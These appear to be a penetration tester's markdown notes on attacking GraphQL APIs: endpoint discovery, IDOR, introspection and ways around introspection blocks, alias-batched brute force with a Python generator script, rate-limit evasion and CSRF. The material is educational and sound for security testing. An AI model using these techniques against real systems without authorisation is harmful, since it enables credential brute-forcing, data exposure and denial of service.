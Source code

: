 ```yaml
---
layout: blank
pagetitle: GraphQL Attacks
---
```


**Automatic Exploitation**
- [GrapeQL](https://github.com/AleksaZatezalo/grapeql.git) will automatically enumerate a GraphQL endpoint and attempt to find common web vulns
  - Installed with pip
  - `grapeql --api {url}/{graphql_endpoint} --report report.md`
    - `--dos` to try denial of service attacks
    - `--proxy {http://127.0.0.1:8080}` to proxy thru Burp
- Use Damn Vulnerable GraphQL App as a testing ground

**Finding GraphQL Endpoints**
- Universal query - `query{__typename}`
- Common endpoints:
  - `/graphql`, `/api`, `/api/graphql`, `/graphql/api`, `graphql/graphql`
  - All of the above with `v1` or `v2` in the path start/end
  - If no endpoints pop up, try using alternative HTTP methods (non-POST) with the universal query

**Exploiting Unsanitized Arguments**
- Think common web vulns here
- Example:
  - Pretend query is `query {products {id name listed}}`
  - If this returns products 1, 2, and 4, we can try to IDOR product 3 with 
    - `query {products(id: 3) {id name listed}}`

**Discovering Schema Information**
- Suggestions
  - Apollo GraphQL will suggest amendments when errors occur, like `There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`
  - These can be used to glean information about the schema
  - **Clairvoyance** uses suggestions to recover the schema
- Introspection queries
  - Built-in function that allows querying schema information
    - `query{__schema}`
    - `{"query": "{__schema{queryType{name}}}"}`
  - Description fields can sometimes have sensitive info
  - Introspection query can be sent via **{right click} > GraphQL > Set introspection query**
    - Can return lots of information, so right click the response and `Save GraphQL queries to site map` 
    - Can use online visualizers, but it didn't show a mutation query
      - http://nathanrandal.com/graphql-visualizer/ (don't use on sensitive data, run visualizer locally)
    - Can also use InQL to view the possible queries
- Mutation queries
  - Will have `variables` parameter where input is specified

**Bypassing Introspection Defenses**
- Sometimes, introspection queries won't run due to being disabled
- Developers sometimes disable introspection by excluding `__schema{` keyword
  - Flawed regex can be defeated by adding spaces/new lines/comments after `__schema` (which are ignored by GraphQL)
- Introspection may sometimes only be disabled over POST, so try GET requests or POST requests with content-type of `x-www-form-urlencoded` 
  - `?query=query%7B__schema%7BqueryType%7Bname%7D%7D%7D`
  - `%0A` for a newline

**Bypassing Rate Limiting**
- Many endpoints will have a rate limiter in place, and will often be based on the number of HTTP requests received (as opposed to the number of operations performed)
  - Network level instead of application level
- This means that we can do a massive brute force of one object/query in a single request using aliases:

```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```
- Python script to generate JSON-friendly aliases given a file with a list of words (brute forcing usernames example):
  - Replace `[mutations_code_here]` with `\n{mutations}\n` (Github markdown issue)

```
import json
with open("wordlist.txt") as f:
    passwords = [line.strip() for line in f]
mutations = "\n".join(
    f'bruteforce{i}: [function](input: {{[input]}}) {{ token success }}'
    for i, pw in enumerate(passwords)
)

graphql_query = {
    "query": f"mutation {{[mutations_code_here]}}"
}

print(json.dumps(graphql_query, indent=2))
```


**GraphQL CSRF**
- Arise when GraphQL endpoints don't validate content type of requests and CSRF tokens not implemented
  - POST requests with content type of `application/json` are secure as long as content type is validated
- Can use GET requests or requests with `x-www-form-urlencoded`, since they can be sent by a browser
  - Either way, need to format it in a URL encoded parameter format (with `=` and `&`)
    - Make sure that `{`, `}`, and `:` (along with other special chars) are URL encoded

